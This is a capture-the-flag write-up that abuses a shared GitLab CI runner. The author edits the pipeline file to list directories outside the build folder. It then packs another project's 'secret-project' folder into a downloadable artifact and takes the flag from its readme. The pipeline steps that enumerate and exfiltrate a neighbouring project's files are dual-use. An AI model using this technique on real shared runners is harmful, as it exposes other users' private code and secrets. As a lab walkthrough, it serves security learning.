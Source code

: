 In this challenge you have access to a Gitlab repo with a runner.

After briefly checking the commit history, and not finding anything, it's time to focus on the runner.

I started by listing all the directories:

```yml
stages:
  - prepare
  - test
  - deploy
before_script:
  - apt-get update && apt-get install -y curl
  - ls -al .
  - ls -al ..
  - ls -al ../..
  - ls -al ../../..
prepare:
  stage: prepare
  script:
    - echo "Preparing environment..."
test:
  stage: test
  script:
    - echo "Running tests..."
    - echo "No tests defined"
deploy:
  stage: deploy
  script:
    - echo "Deploying the application..."
    - echo "No deployment defined"
  only:
    - main
```

```
$ ls -al ../..
total 16
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 .
drwxrwxr-x 3 gitlab-runner gitlab-runner 4096 Oct 24 21:17 ..
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 User
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 root
```

We can then inspect this interesting `root` directory:

```yml
stages:
  - prepare
  - test
  - deploy
before_script:
  - apt-get update && apt-get install -y curl
  - ls -al ../../root
prepare:
  stage: prepare
  script:
    - echo "Preparing environment..."
test:
  stage: test
  script:
    - echo "Running tests..."
    - echo "No tests defined"
deploy:
  stage: deploy
  script:
    - echo "Deploying the application..."
    - echo "No deployment defined"
  only:
    - main
```

```
$ ls -al ../../root
total 16
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 .
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 ..
drwxrwxr-x 6 gitlab-runner gitlab-runner 4096 Oct 24 21:17 secret-project
drwxrwxr-x 3 gitlab-runner gitlab-runner 4096 Oct 24 21:17 secret-project.tmp
```

At this point, enumerating things got annoying so I decided to simply download the `root/secret-project` folder:

```yml
stages:
  - prepare
  - test
  - deploy
before_script:
  - apt-get update && apt-get install -y curl
  - ls -al ../../root
prepare:
  stage: prepare
  script:
    - echo "Preparing environment..."
    - tar -cvf my_folder.tar.gz ../../root/secret-project 
  artifacts:
    paths:
	    - my_folder.tar.gz
    expire_in: 1 week
test:
  stage: test
  script:
    - echo "Running tests..."
    - echo "No tests defined"
deploy:
  stage: deploy
  script:
    - echo "Deploying the application..."
    - echo "No deployment defined"
  only:
    - main
```

![[Pasted image 20241024233339.png]]

The flag is simply in the `readme.md`:

`ECW{B3_c4reFU11_WiTh_Th053_Sh4rr3d_RunN3r5}`